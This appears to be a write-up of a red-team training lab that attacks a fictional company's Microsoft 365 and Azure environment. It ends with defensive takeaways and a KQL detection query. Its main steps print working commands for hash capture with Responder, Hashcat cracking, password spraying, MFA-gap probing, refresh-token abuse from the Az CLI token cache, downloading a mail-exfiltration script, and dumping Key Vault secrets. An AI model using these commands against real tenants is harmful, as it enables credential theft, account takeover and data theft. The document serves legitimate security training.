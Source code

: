 Get hands on with phishing, token abuse and exfiltrating data from Office 365. It provides a good overview of real-world techniques that threat actors use to compromise and move laterally and vertically in Azure, and how we can protect against these attacks.
## Learning outcomes  

- Leak Net-NTLMv2 hashes to gain user credentials
- Identify valid users and credentials using Oh365UserFinder
- Verify MFA enforcement status using MFASweep
- Perform token abuse using TokenTacticsV2
- Exfiltrate data from Azure using native tools and scripts
- Learn how this scenario can be detected and prevented
## Notes

This lab simulates a real-world red team engagement where the attack chain exploits identity and access management (IAM) vulnerabilities and social engineering to breach Mega Big Tech's environment. Here's the attack story structured for clarity:

---

### **1. Initial Reconnaissance**

- **Goal:** Identify valid users to launch phishing or password-spraying attacks.
- **Technique:**
    - Used `Oh365UserFinder` to enumerate valid email formats.
    -  Saved a list of common email formats to a text file and used the text file in the command `python3 oh365userfinder.py -r emails.txt`, confirming `firstname.lastname@megabigtech.com` as the format.
    - This highlights a common practice threat actors exploit: standardized corporate email formats.

---

### **2. Phishing Campaign**

- **Goal:** Leak Net-NTLMv2 hashes by coercing authentication to a malicious SMB server.
- **Technique:**
    - Set up a rogue SMB server with `Responder`. `python3 Responder.py -I eth0`
    - Crafted a phishing email convincing the target to authenticate to the attacker's server.
    - Successfully captured Net-NTLMv2 hashes and cracked them using `Hashcat`. `hashcat -m 5600 netntlm.hash /root/rockyou.txt`. Hashcat mode `5600` corresponds to the [Net-NTLMv2 hash type](https://hashcat.net/wiki/doku.php?id=example_hashes). The `rockyou.txt` wordlist is often used as a starting point for offline brute force attacks and contains over 14 million passwords
    - You can read more on [NTLM](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

### **3. Valid Credential Verification**

- **Goal:** Check if the compromised credentials work across corporate systems.
- **Technique:**
    - Tested the cracked credentials (`theD@RKni9ht`) against Microsoft 365 accounts. `python3 oh365userfinder.py -p theD@RKni9ht --pwspray --elist mbtusers.txt`. The `-e` parameter is just for identifying users.
    - Discovered credential reuse across systems, gaining access to the victim's corporate account.

---

### **4. Bypassing MFA**

- **Goal:** Identify services exempt from MFA enforcement.
- **Technique:**
    - Used `MFASweep` to probe MFA gaps, discovering that APIs like Microsoft Graph and Microsoft Service Management allowed single-factor authentication. `Invoke-MFASweep -Username sam.olsson@megabigtech.com -Password theD@RKni9ht -Recon`
    - Exploited these gaps to obtain a session for the Microsoft Graph API.

---

### **5. Token Abuse**

- **Goal:** Move laterally and escalate privileges using tokens. 
- **Technique:**
    - Signed into the portal as Sam and seen a logic app that had hard creds from a different user.
    - We want to see the password protection settings before doing a brute force `Install-Module Microsoft.Graph.Beta.Identity.DirectoryManagement` & `Get-MgBetaDirectorySetting |where {$_.templateId -eq "5cf42378-d67d-4f36-ba46-e8b86229381d"} |convertto-json -Depth 50`
    - Extracted refresh tokens using the Azure CLI and used them to generate new access tokens. `az account get-access-token`
    - On Mac and Linux the Az CLI access and refresh tokens are stored in plaintext in the file `~/.azure/msal_token_cache.json` . On Windows the tokens are stored in `%userprofile%\.azure\msal_token_cache.bin` , and encrypted using DPAPI. Although we could look to decrypt the tokens, we can also install an older version of the Az CLI on a test Windows VM, as these older versions store both access and refresh tokens unprotected in the file `%userprofile%\.azure\accessTokens.json`.
    - Exploited OAuth token mismanagement to pivot across services without triggering MFA.
    - Leveraged `TokenTacticsV2` to access Microsoft Graph APIs, extracting sensitive emails and credentials. `Invoke-RefreshToMSGraphToken -domain megabigtech.com -refreshToken "<token>"` token is from the json file.
    - The new access token for Microsoft Graph can be accessed with `$MSGraphToken.access_token`.

---

### **6. Privilege Escalation**

- **Goal:** Gain administrative access to the Azure environment.
- **Technique:**
    - Discovered an administrator email account with weak credentials in emails exfiltrated from Microsoft Graph.
	    - Use this Python script `wget https://raw.githubusercontent.com/rootsecdev/Azure-Red-Team/master/Tokens/exfil_exchange_mail.py`
    - Verified admin account access and discovered it was not protected by MFA.
    - Used the Azure PowerShell module to enumerate and access Azure resources, including the Azure Key Vault.
	    - `$VaultName = "MBT-Admins"`
	    - `Get-AzKeyVaultSecret -VaultName $VaultName | ForEach-Object { Get-AzKeyVaultSecret -VaultName $VaultName -Name $_.Name -asplaintext }`
    - Extracted secrets from the vault, including the global admin password, effectively owning the environment.


---

### **Defensive Takeaways**

1. **Strengthen MFA Enforcement:**
    - Ensure MFA is enforced for **all endpoints and services**, including APIs like Microsoft Graph and CLI access.
2. **Monitor Authentication Logs:**
    - Detect reconnaissance tools like `Oh365UserFinder` and brute-force attacks using logs from Entra ID.
    - KQL query `SigninLogs | where ResultType != 0 | summarize FailedLoginCount = count() by ResourceDisplayName, UserPrincipalName | sort by FailedLoginCount desc nulls last`
1. **Educate Users:**
    - Train employees to recognize phishing attempts.
2. **Limit Token Lifetimes:**
    - Implement stricter token expiration policies to reduce the window for abuse.
3. **Secure Azure Key Vaults:**
    - Use Key Vault firewall rules and RBAC to prevent unauthorized access.

https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-conditional-access-conditions#device-platforms

https://www.microsoft.com/en-us/security/blog/2022/11/16/token-tactics-how-to-prevent-detect-and-respond-to-cloud-token-theft/

https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0